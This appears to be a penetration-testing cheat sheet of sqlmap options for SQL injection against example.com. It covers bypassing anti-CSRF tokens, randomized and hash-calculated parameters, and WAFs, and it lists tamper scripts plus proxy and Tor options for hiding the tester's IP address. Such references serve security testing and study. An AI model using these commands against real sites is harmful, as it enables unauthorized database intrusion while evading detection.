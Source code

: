 ## Anti-CSRF Token Bypass
--csrf-token
```shell-session
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

## Unique Value Bypass
```shell-session
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI
```

## Calculated Parameter Bypass
Sometimes, a parameter is calculated by another parameter. In this case, use --eval.
```shell-session
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI
```

## IP Address Concealing
--proxy (e.g. --proxy="sock4://177.39.187.70:33283") (add a working proxy before)
--proxy-file (list of proxies)
--tor (use tor)
--check-tor (to see if connected to tor properly)

## WAF Bypass
--skip-waf

## User-agent Blacklisting Bypass
--random-agent

## Tamper Scripts
--tamper (--tamper=between,randomcase)
--list-tampers
- 0eunion
- base64encode
- between
- commalesslimit
- equaltolike
- halfversionedmorekeywords
- modsecurityversioned
- percentage
- plus2concat
- randomcase
- space2comment
- space2dash
- space2hash
- space2mssqlblank
- space2plus
- space2randomblank
- symboliclogical
- versionedkeywords
- versionmorekeywords

## Miscellaneous Bypasses
--chunked (chunked transfer encoding and HTTP parameter pollution)
